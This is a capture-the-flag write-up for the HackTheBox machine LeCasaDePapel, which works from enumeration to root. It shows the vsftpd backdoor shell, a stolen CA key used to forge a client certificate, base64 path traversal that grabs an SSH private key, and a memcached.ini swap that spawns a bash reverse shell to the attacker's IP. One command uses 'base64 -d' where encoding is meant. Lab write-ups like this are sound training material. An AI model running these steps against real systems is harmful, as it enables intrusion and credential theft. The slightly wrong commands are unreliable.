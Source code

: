 # LeCasaDePapel

This is the write-up for the box LeCasaDePapel that got retired at the 27th July 2019.
My IP address was 10.10.14.248 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.131    lecasadepapel.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/lecasadepapel.nmap 10.10.10.131
```

```markdown
We get following results:
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|   http/1.1
|_  http/1.0
Service Info: OS: Unix
```

## Checking FTP (Port 21)

The service that runs on port 21 is vsftpd 2.3.4, so we check for knwon vulnerabilites for this version of vsftpd:

```markdown
searchsploit vsftpd
```

And we find that there is a Metasploit module for that exact version.
After we try this the exploit does not work, so we change the _Verbose_ option to _True_ and running it again will say the following:
> The service on port 6200 does not appear to be a shell

There seems to be something on port 6200 so let's check that:
```markdown
nc 10.10.10.131 6200
```
The information this gives us is:
> Psy Shell v0.9.9 (PHP 7.2.10 - cli)

### Checking the Psy Shell

This shell takes PHP commands, so we check files on the box.

```markdown
scandir(".")
scandir("/home")
```

Now we have potential users on the box. They are called nairobi, dali, berlin, oslo and professor.

```markdown
file_get_contents:("/home/nairobi/ca.key")
```

- User dali: We have permission to write and can change .ssh/authorized_keys
- User nairobi: We get contents of ca.key
- User berlin: Has user.txt

We take the contents of _ca.key_ from nairobi to the local machine.

## Checking HTTP (Port 80)

This web page has a QR-code with Google Authenticator installed, so there is propably nothing here.

## Checking HTTPS (Port 443)

This web page tells us:
> Sorry, but you need to provide a client certificate to continue.

As we have the CA private key, we now need the ceritificate chain and then we sign our own certificates.
The certificate chain can be exported from Firefox and saved on the local machine as _lecasadepapel.crt_.

Verify if ca.key is the private key to this certficate:

```markdown
openssl pkey -in ca.key -pubout
openssl x509 -in lacasadepapelhtb.crt -pubkey -noout
```

The output of both files is the same so we are good to go.

Now we can generate a client key, a certificate signing request and then sign it:

```markdown
openssl genrsa -out client.key 4096
openssl req -new -key client.key -out client.csr
openssl x509 -req -in client.csr -CA lacasadepapelhtb.crt -CAkey ca.key -set_serial 9002 -extensions client -days 9002 -outform PEM -out client.cer
```

After this we need to format it to PKCS12 format so Firefox can use it:

```markdown
openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
```

This _client.p12_ can be imported into Firefox in the Certificate Store and the _lecasadepapel.crt_ into Authorities.

Now we get something on the web page. We can choose between SEASON-1 and SEASON-2. Both of these links show us a bunch of.avi files.
The filenames in the path of one of this .avi files look like they are Base64 decoded:

```markdown
hxxps://10.10.10.131/file/U0VBU09OLTEvMDEuYXZp
```

If we decode this string it says **SEASON-1/01.avi** so maybe we can browse the file system if we Base64 decode our own strings.
Let's decode the string **../.ssh/id_rsa** and paste it into the URL:

```markdown
echo -n ../.ssh/id_rsa | base64 -d
```

### SSH into the server

We paste the contents of the _id_rsa_ into a file on our server:

```markdown
vim ssh.pem
chmod 600 ssh.pem
```

As we enumerated the usernames we just try every user until it works on one of them.

```markdown
ssh -i ssh.pem professor@10.10.10.131
```
It works on professor and we have a SSH session on the box.

## Privilege Escalation

Getting PsPy or another PrivEsc checking tool on the box and checking processes.
We see that the process **memcached** gets called every minute or so. The professor has a _memcached.ini_ in this home directory, so we probably need to work with that.

We don't have permission to write to that file but we have the permission create files.

```markdown
mv memcached.ini ownmemcached.ini
cat ownmemcached.ini > memcached.ini
```

Now we own the _memcached.ini_ file and let it execute whatever we want and we want a reverse shell:

```markdown
command = bash -c "bash -i >& /dev/tcp/10.10.14.248/9001 0>&1"
```

Open a reverse connection on port 9001 and wait until memcached executes again. After that we get a shell as root!
